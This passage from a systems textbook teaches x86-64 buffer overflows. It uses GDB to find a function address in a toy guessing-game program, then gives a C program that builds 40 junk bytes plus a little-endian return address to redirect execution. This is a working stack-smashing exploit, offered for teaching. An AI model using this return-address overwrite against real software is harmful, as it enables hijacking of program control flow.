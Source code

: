 ### [](https://diveintosystems.org/book/C7-x86_64/buffer_overflow.html#_a_smarter_buffer_overflow_second_attempt)7.10.5. A Smarter Buffer Overflow: Second Attempt

Our first example smashed the stack by overwriting the `%rbp` register and return address with junk, causing the program to crash. An attacker whose goal is to simply crash a program would be satisfied at this point. However, our goal is to trick the guessing game to return 0, indicating that we won the game. We accomplish this by filling the call stack with data more meaningful than junk values. For example, we could overwrite the stack so that the return address is replaced with the address of `endGame`. Then, when the program attempts to return from `main`, it will instead execute `endGame` rather than crashing with a segmentation fault.

To find out the address of `endGame`, let’s inspect `secret` again in GDB:

```c
$ gdb secret
(gdb) disas endGame
Dump of assembler code for function endGame:
   0x00000000004006da <+0>:   push   %rbp
   0x00000000004006db <+1>:   mov    %rsp,%rbp
   0x00000000004006de <+4>:   mov    $0x40086a,%edi
   0x00000000004006e3 <+9>:   callq  0x400500 <puts@plt>
   0x00000000004006e8 <+14>:  mov    $0x0,%edi
   0x00000000004006ed <+19>:  callq  0x400550 <exit@plt>
End of assembler dump.
```

Observe that `endGame` starts at address 0x00000000004006da. [Figure 4](https://diveintosystems.org/book/C7-x86_64/buffer_overflow.html#finalExploit) illustrates a sample exploit that forces `secret` to run the `endGame` function.

![exploit](https://diveintosystems.org/book/C7-x86_64/_images/finalExploit.png)

Figure 4. A sample string that can force secret to execute the endGame function

Essentially, there are 40 bytes of junk values followed by the return address. Again, since x86-64 is a [little-endian](https://diveintosystems.org/book/C4-Binary/byte_order.html#_integer_byte_order) system the bytes in the return address appear to be in reverse order.

The following program illustrates how an attacker could construct the preceding exploit:

```c
#include <stdio.h>

char ebuff[]=
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*first 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*next 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*following 10 bytes of junk*/
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30" /*last 10 bytes of junk*/
"\xda\x06\x40\x00\x00\x00\x00\x00" /*address of endGame (little endian)*/
;

int main(void) {
    int i;
    for (i = 0; i < sizeof(ebuff); i++) { /*print each character*/
        printf("%c", ebuff[i]);
    }
    return 0;
}
```
